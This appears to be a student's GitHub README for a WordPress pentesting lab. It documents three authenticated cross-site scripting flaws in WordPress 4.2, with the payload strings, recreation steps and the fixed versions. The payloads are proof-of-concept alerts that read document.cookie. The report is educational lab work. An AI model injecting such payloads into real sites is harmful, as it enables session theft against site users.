


# Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss1[caption width="100" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(document.cookie)'">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/media.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/shortcodes.php)
    
2. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss2```
    - ``` ```
    - ```<a href="[caption code=">]</a><a title=" onmouseover=alert(document.cookie)  ">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-embed.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/formatting.php)
    - [Link 3](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/kses.php)
    - [Link 4](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/shortcodes.php)
    
2. (Required) Authenticated Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.4.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```http://wpdistillery.vm/wp-admin/customize.php?theme=<svg onload=alert(document.cookie)>```
    - Go to the post
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-theme.php)
    
## Assets

  - xss1.gif
  - xss2.gif
  - xss3.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright 2018 Yong Jun Cho

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
